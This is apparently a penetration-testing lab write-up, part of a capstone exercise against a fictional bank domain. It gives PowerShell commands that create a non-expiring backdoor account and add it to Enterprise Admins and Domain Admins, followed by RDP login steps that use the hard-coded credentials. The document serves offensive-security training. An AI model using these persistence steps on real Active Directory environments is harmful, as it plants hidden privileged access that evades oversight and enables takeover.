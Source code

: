 In order to maintain persistence, and allowing us to login without creating tickets, we can create a new user and add it to **Enterprise Admins** group, using the following PowerShell code:

## Connect to CORPDC with Administration credentials

[[Connect to CORP.DC with Administration credentials]]

## Adding a new user as an Enterprise Admin

PS C:\Users\Administrator>`$pwd = convertTo-SecureString "Capstone1@" -AsPlainText -Force`

PS C:\Users\Administrator> `New-ADUser -Name "kairosroot" -AccountPassword $pwd -PasswordNeverExpires $true -Enabled $true`

PS C:\Users\Administrator>`$User = Get-ADUser -Identity "kairosroot"  -Server "corpdc.corp.thereserve.loc"`

PS C:\Users\Administrator>`$Group = Get-ADGroup -Identity "Enterprise Admins" -Server "rootdc.thereserve.loc"`

PS C:\Users\Administrator>`Add-ADGroupMember -Identity $Group -Members $User -Server "rootdc.thereserve.loc"`


![[Maintain persistence-20240613153305218.webp]]

### Check out the user and group

PS C:\Users\Administrator> `echo $user`

![[Maintain persistence-20240616142921373.webp]]

PS C:\Users\Administrator> `echo $group`

![[Maintain persistence-20240613153950655.webp]]


`
## RDP to ROOTDC

With our new created user, we can just login in the ROOTDC as an Enterprise Admin.

Computer: `10.200.X.100`

### Connecting from a Client Machine

1. **Open Remote Desktop Connection**:
    
    - Press `Win + R`, type `mstsc`, and press `Enter`.
    - ![[Maintain persistence-20240615154522456.webp]]
1. **Enter the Host Machine’s Name or IP Address**:
    
    - In the Remote Desktop Connection window, enter the computer name or IP address of the host machine.
3. **Enter Credentials**:
    
    - When prompted, enter the username and password for the account on the host machine.
    - Username: `kairosroot`
    - Password: `Capstone1@`
1. **Optional: Save Connection Settings**:
    
    - You can save the connection settings to an RDP file by clicking on **Show Options** > **Save As**.
5. **Connect**:
    
    - Click **Connect** to start the remote session.

    ![[Maintain persistence-20240616151550123.webp]]


## <span style="background:#d4b106">Create an user at CORPDC as a Domain Admin</span>

This user will allow us to login with both accounts in different domains:

> **Thereserve**\<user> (Enterprise Admin)
> **Corp.thereserve.loc**\<user> (Domain Admin)

PS C:\Users\Administrator>`$pwd = convertTo-SecureString "Capstone1@" -AsPlainText -Force`

PS C:\Users\Administrator> `New-ADUser -Name "kairosroot" -AccountPassword $pwd -PasswordNeverExpires $true -Enabled $true`

PS C:\Users\Administrator>`$User = Get-ADUser -Identity "kairosroot"  -Server "corpdc.bank.thereserve.loc"`

PS C:\Users\Administrator>`$Group = Get-ADGroup -Identity "Domain Admins" -Server "corpdc.bank.thereserve.loc"`

PS C:\Users\Administrator>`Add-ADGroupMember -Identity $Group -Members $User -Server "corpdc.bank.thereserve.loc"


**Next step:** [[RDP to BANKDC from host CORPDC]]
